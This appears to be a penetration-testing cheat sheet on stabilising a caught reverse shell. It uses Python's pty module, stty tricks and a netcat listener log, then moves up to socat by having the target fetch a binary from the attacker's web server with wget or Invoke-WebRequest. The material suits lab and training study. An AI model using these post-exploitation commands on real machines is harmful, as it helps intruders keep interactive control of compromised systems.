 # Stabilize shell


The Python interpreter, frequently installed on Linux systems, comes with a standard module named pty that allows for creation of pseudo-terminals.
By using this module, we can spawn a separate process from our remote shell and obtain a fully interactive shell.


- make sure we have TTY functionality by using the Python 3's `pty` module
```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo
fg
export TERM=xterm
```


### Upgrade simple shell to tty shell to fully interactive shell
```
python -c 'import pty; pty.spawn("/bin/bash")'
USER@ubuntu:~$ ^Z                    //<- Press Ctrl +Z           
zsh: suspended  nc -lvp 13337
┌──(kali㉿kali)-[~]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvp 13337
                               reset
reset: unknown terminal type unknown
Terminal type? screen
USER@ubuntu:~$ export TERM=xterm
```
For windows, use this [tool](https://github.com/antonioCoco/ConPtyShell)






```
# step 1
python -c 'import pty;pty.spawn("/bin/bash")' # note that some targets may need the version of Python specified
# step 2
export TERM=xterm # this will give us access to term commands such as clear  
# step 3
stty raw -echo; fg # it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process. Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type reset and press enter.

```



```
script /dev/null -c /bin/bash
CTRL + Z
stty raw -echo; fg
# Then press Enter twice, and then enter:
export TERM=xterm
```






It's also useful to be able to change your terminal tty size. First check the current values with: `stty -a` and then change it with `stty rows NUMBER` and `stty cols NUMBER`.



Another way stabilise a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell. Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell. To accomplish this method of stabilisation we would first transfer a socat static compiled binary (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (`sudo python3 -m http.server 80`), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget (`wget <LOCAL-IP>/socat -O /tmp/socat`).

For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either Invoke-WebRequest or a webrequest system class, depending on the version of Powershell installed (`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`). We will cover the syntax for sending and receiving shells with Socat in the upcoming tasks.


